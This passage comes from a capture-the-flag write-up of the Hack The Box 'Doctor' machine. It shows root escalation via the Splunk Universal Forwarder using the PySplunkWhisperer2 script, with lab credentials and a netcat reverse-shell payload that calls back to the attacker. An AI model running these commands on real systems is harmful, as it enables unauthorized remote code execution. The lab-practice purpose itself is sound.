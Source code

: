 We can see that there is what appears to be a `Splunk Forwarder 8.0.5` installation found in `/opt/splunkforwarder`. I Google search for `Splunk Forwarder Vulnerabilities` will lead to [this post](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/) about `Splunk Universal Forwarder Hijacking` and using an authenticated attack that allows for remote code execution as the account that is running the forwarder. This post also shows us that there is an exploit script named [SplunkWhisperer2](https://github.com/DaniloCaruso/SplunkWhisperer2/tree/master/PySplunkWhisperer2) that may be able to help us with this.

Download the files to you working directory.

Start a listener on port 4433.

``` bash
nc -lvnp 4433
```

Move into the directory containing the remote script. And then run the script using the following command.

``` bash
python PySplunkWhisperer2_remote.py --lhost <YOUR TUNNEL IP> --host 10.10.10.209 --username shaun --password Guitar123 --payload 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR TUNNEL IP> 4433 >/tmp/f'
```

>**NOTE:** Do not forget to change `<YOUR TUNNEL IP>` to your machine IP. It's in two places.

![](/assets/images/htb-doctor/22_doctor_splunk_whisperer.png)

![](/assets/images/htb-doctor/23_doctor_root_flag.png)

Success! This results in a reverse shell as the root user and we now have both the user and root flags!

## Conclusion
I really enjoyed the foothold on this machine. I haven’t had a lot of opportunity to practice finding and exploiting server-side template injection. And so, I really enjoyed the opportunity to do it here. I had also heard of the SplunkWhisperer vulnerability well before getting a chance to use it on this machine. It was pretty straight forward once getting my hands on the script, and so there was nothing particularly exciting about this. Overall it was a nice easy machine.
